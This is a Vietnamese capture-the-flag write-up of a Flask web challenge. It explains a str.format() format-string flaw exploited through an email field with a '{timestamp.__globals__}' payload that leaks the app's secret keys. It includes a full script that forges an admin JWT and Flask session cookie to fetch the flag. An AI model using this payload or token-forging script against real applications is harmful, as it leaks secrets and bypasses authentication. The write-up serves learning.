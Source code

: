 ![image](../img/7.1.png)

ứng dụng có 4 feature: `register, login, change-email, view-log`

login được thì tạo 1 session dạng jwt
![image](../img/7.2.png)

flag nằm ở route `/admin`
![image](../img/7.3.png)

hmm, có vẻ chúng ta cần lấy được jwt thỏa mãn của admin

và bài này mình thật sự bí trong thời gian diễn ra giải, khi end giải mình có tham khảo wu của một số player và đây là cách mình hiểu về nó

![image](../img/7.4.png)

dòng 68 def `timestamp` được truyền trực tiếp vào `format()`. Ở đây theo wu thì nó dính lỗi gọi là `Format string vulnerability`. Nghĩa là nếu trong` format()` nó truyền vào 1 `function` hay `def` thì có thể lợi dụng để đọc được các biến `global` nằm trong file chứa `function` hay `def` đó. Và có thể là đọc được thêm nhiều thông tin liên quan(ở bài này mình đề cập tới vấn đề đọc được` global`)

đọc thêm tại bài viết [này](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/)

payload: 

new-email= `{timestamp.__globals__}'@xxx.com`

login lại với email mới ta thu được `FLASK_SECRET_KEY` và `jwt_key`

![image](../img/7.5.png)

mình nhờ chatGPT viết script tạo jwt với user admin

```
import requests
from itsdangerous.timed import TimestampSigner
from datetime import datetime, timedelta
import re
import hashlib
import json
from flask.sessions import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, BadSignature
import datetime
import jwt
import html

# BASE_URL = "http://localhost:1337"
BASE_URL="http://chal.competitivecyber.club:1337"


class APIClient:
    def __init__(self):
        # Create a session object to persist the cookies and auth across requests
        self.session = requests.Session()

    def login(self, email, password):
        url = f"{BASE_URL}/api/login"
        data = {"email": email, "password": password}
        response = self.session.post(url, json=data)
        if response.status_code == 200:
            print("Logged in successfully")
            return True
        else:
            print(f"Login failed: {response.status_code} - {response.text}")
            return False

    def register(self, email, password):
        url = f"{BASE_URL}/api/register"
        data = {"email": email, "password": password}
        response = self.session.post(url, json=data)
        if response.status_code == 200:
            print("Registered successfully")
            return True
        else:
            print(f"Registration failed: {response.status_code} - {response.text}")
            return False

    def update_email(self, new_email):
        url = f"{BASE_URL}/api/update-email"
        data = {"email": new_email}
        response = self.session.post(url, json=data)
        if response.status_code == 200:
            print("Email updated successfully")

            return True
        else:
            print(f"Update email failed: {response.status_code} - {response.text}")
            return False

    def view_logs(self):
        url = f"{BASE_URL}/api/view-logs"
        response = self.session.get(url)
        if response.status_code == 200:
            logs = response.json()
            return logs
        else:
            print(f"Failed to retrieve logs: {response.status_code} - {response.text}")
            return None


def create_JWT(email: str, role, jwt_key):
    # Sử dụng datetime.timezone.utc thay vì datetime.UTC
    utc_time = datetime.datetime.now(datetime.timezone.utc)
    token_expiration = utc_time + datetime.timedelta(minutes=1000)
    data = {"email": email, "exp": token_expiration, "role": role}
    encoded = jwt.encode(data, jwt_key, algorithm="HS256")
    return encoded


def verify_JWT(token, jey_key):
    try:
        token_decode = jwt.decode(token, jwt_key, algorithms="HS256")
        return token_decode
    except:
        return abort(401, "Invalid authentication token!")


def forge_flask_session(secret_key, data):
    serializer = TaggedJSONSerializer()
    signer = URLSafeTimedSerializer(
        secret_key,
        salt="cookie-session",
        serializer=serializer,
        signer=TimestampSigner,
        signer_kwargs={"key_derivation": "hmac", "digest_method": hashlib.sha1},
    )
    return signer.dumps(data)


def get_flag(session):
    url = f"{BASE_URL}/admin"
    response = requests.get(url, cookies={"session": session})
    if response.status_code == 200:
        print(response.text)
    else:
        print(f"Failed to retrieve flag: {response.status_code} - {response.text}")


if __name__ == "__main__":
    client = APIClient()

    email = "khiemdeptrai1@example.com"  # Replace with actual email
    password = "1"  # Replace with actual password
    client.register(email, password)
    if client.login(email, password):
        # 2. Optionally, register a new user
        new_email = "{timestamp.__globals__}'@concac2.com"  # Replace with actual new email

        # 3. Update email
        client.update_email(new_email)
        client.login(new_email, password)
        # 4. View logs
        logs = client.view_logs()
        for log in logs:
            print(html.unescape(log["log_text"]))

        jwt_key = input("jwt key >")
        flask_secret = input("flask secret >")
        jwt = create_JWT(new_email, "admin", jwt_key)

        session = forge_flask_session(flask_secret, {"auth": jwt})

        get_flag(session)

```

powww

![image](../img/7.6.png)

FLAG: `pctf{str_f1rm4t_1s_k1nd8_c00l_7712817812}`

1 chall khá hay, mình học thêm được về format() vulnerability